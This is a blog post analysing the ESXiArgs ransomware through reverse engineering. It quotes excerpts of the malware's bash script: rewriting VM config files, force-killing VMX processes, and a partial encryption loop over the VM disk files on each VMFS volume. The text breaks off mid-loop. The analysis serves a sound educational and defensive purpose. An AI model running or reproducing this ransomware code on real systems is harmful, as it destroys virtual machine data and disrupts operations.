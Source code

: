 ```yaml
---
title: "ESXiArgs: An Analysis"
meta_title: ""
description: "Learning about how the ESXiArgs ransomware works through reverse engineering"
date: 2024-04-01
image: "/images/esxiargs-analysis/ghidra.png"
categories: ["Cybersecurity", "Low level software"]
author: "Nam Nguyen"
tags: ["Reverse Engineering", "Malware Analysis"]
draft: false
---
```


Let's learn about how the ESXiArgs ransomware works. through revers engineering.

Last year, a ransomware attack called **ESXiArgs** managed to encrypt hundreds of VMware machines in multiple different countries. And I decided to try my hands at reverse engineering and analyzing this malware to see how it works. So without further ado, let's reverse this.

> Note: The malware sample was provided by the [bleepingcomputer forum](https://www.bleepingcomputer.com/forums/t/782193/esxi-ransomware-help-and-support-topic-esxiargs-args-extension/page-14#entry5470686)

## The script

So right out of the gate, in the script, there's a section called `CHANGE CONFIG`:

```bash
## CHANGE CONFIG

for config_file in $(esxcli vm process list | grep "Config File" | awk '{print $3}'); do
  echo "FIND CONFIG: $config_file"
  sed -i -e 's/.vmdk/1.vmdk/g' -e 's/.vswp/1.vswp/g' "$config_file"
done
```

This will find the config files and changing the `vmdk` config files to `vswp` files. So nothing super interesting here.

In the next section, the script is stopping the `VMX` process:

```bash
## STOP VMX
echo "KILL VMX"
kill -9 $(ps | grep vmx | awk '{print $2}')
```

The `VMX` process is responsible for handling I/O devices. It is also responsible for communicating with user interfaces, snapshot managers, and remote console.

The next section is the "meat" of the malware, the *encrypt* section:

```bash
## ENCRYPT

chmod +x $CLEAN_DIR/encrypt

for volume in $(IFS='\n' esxcli storage filesystem list | grep "/vmfs/volumes/" | awk -F'  ' '{print $2}'); do
  echo "START VOLUME: $volume"
  IFS=$'\n'
  for file_e in $( find "/vmfs/volumes/$volume/" -type f -name "*.vmdk" -o -name "*.vmx" -o -name "*.vmxf" -o -name "*.vmsd" -o -name "*.vmsn" -o -name "*.vswp" -o -name "*.vmss" -o -name "*.nvram" -o -name "*.vmem"); do
      if [[ -f "$file_e" ]]; then
        size_kb=$(du -k $file_e | awk '{print $1}')
        if [[ $size_kb -eq 0 ]]; then
          size_kb=1
```